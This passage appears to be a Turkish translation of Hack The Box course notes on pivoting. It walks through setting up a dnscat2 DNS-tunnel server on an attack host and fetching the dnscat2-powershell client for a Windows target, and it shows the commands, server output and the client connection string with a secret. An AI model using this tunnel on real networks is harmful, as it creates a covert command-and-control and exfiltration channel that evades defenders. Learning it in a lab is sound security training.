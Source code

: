 
### dnscat2'yi Klonlama ve Sunucuyu Kurma
```shell-session
M1R4CKCK@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

Daha sonra dnscat2 dosyasını çalıştırarak dnscat2 sunucusunu başlatabiliriz.


### dnscat2 sunucusunu başlatma

```shell-session
$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

Sunucuyu çalıştırdıktan sonra, bize Windows host üzerindeki dnscat2 client'ımıza sağlamamız gereken gizli anahtarı sağlayacaktır, böylece external dnscat2 server'ımıza gönderilen verileri doğrulayabilir ve şifreleyebilir. Client'ı dnscat2 projesi ile kullanabilir veya dnscat2 sunucumuzla bir tünel kurmak için Windows hedeflerinden çalıştırabileceğimiz dnscat2 uyumlu PowerShell tabanlı bir client olan [dnscat2-powershell'i](https://github.com/lukebaggett/dnscat2-powershell) kullanabiliriz. Client dosyasını içeren projeyi saldırı hostumuza klonlayabilir, ardından hedefe aktarabiliriz.


### dnscat2-powershell'i Atak Hostuna Klonlama

```shell-session
M1R4CKCK@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
